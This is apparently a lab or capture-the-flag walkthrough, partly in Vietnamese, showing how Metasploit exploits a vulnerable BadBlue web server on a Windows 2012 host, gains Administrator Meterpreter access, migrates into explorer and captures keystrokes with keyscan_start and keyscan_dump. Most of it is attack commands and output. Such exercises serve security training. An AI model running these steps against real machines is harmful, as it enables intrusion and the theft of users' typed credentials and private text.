

# Windows Keylogging

Target IP: 10.2.24.165

Metasploit keystroke sniffer

`service postgresql start && msfconsole -q`

`db_status`

`setg RHOSTS 10.2.24.165`

`setg RHOST 10.2.24.165`

`workspace -a Keylogging`

`db_nmap -sV 10.2.24.165`

Exploitation

`use exploit/windows/http/badblue_passthru`

`run`

`sysinfo`

    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

`getuid`

	Server username: WIN-OMCNBKR66MN\Administrator

Keylogging

`pgrep explorer`

`migrate 2420`

`help`

```
--- Stdapi: User interface Commands
===============================
    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```

Mở trình soạn thảo `Notepad` trên máy mục tiêu.

Trên Attack machine, hãy bắt đầu ghi lại thao tác gõ phím.

`keyscan_start`

	Starting the keystroke sniffer ...

Nhập một số văn bản vào máy mục tiêu.

Quay lại máy của kẻ tấn công, thu thập dữ liệu đã nhập.

`keyscan_dump`



Stop the sniffer

`keyscan_stop`